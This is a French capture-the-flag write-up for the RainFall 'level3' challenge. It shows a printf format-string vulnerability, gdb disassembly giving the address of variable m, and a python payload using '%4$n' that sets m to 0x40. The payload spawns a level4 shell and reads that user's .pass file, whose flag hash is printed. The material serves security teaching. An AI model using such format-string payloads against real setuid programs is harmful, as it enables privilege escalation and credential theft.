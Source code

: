 # Level3

```
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
```

Le code decompile nous informe que l'entrée utilisateur est récupérée puis affichée avec printf.
On remarque qu'il n'y a pas de sélecteur (%..) défini avec printf.
Après recherche nous allons exploiter une faille connue sous le nom de "format string".

Nous pouvons afficher ou manipuler le contenu de la stack en injectant les sélecteurs de printf dans l'entrée standard.

```
level3@RainFall:~$ ./level3
%x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825
```
```
level3@RainFall:~$ ./level3
AAAA%x %x %x %x
AAAA200 b7fd1ac0 b7ff37d0 41414141
```

Nous constatons que nous pouvons prendre le contrôle de l'exécution dans la 4e stack frame.
Dans le code nous voyons une condition qui permet de lancer un shell si m == 0x40.

Nous allons récupérer l'adresse de m grace a gdb :
```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax <== adresse de m pour comparaison
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
(gdb) x/x 0x804988c
0x804988c <m>:	0x00000000
```
Maintenant que nous avons l'adresse "0x804988c" nous allons modifier le contenu de "m", grâce qu sélecteur "%n" de printf, qui permet d'écrire dans la mémoire le nombre correspondant aux caractères qui précède "%n".
ex :
```
int i;
printf("Hello%n", &i);
printf(" %d\n", i); // 5
```
Nous allons donc créer le script suivant :
```
python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")' > /tmp/exploit
```
Qui va écrire a la 4e stackFrame, 64(adresse(4) + caracteres(60)) a l'adresse de "m".

En partant du dernier script, il suffit de mettre nos 60 espaces "%60x", et de donner l'adresse de m a %n pour écrire 64 dedans (0x40 en hexa)

```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
?                                                         200
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
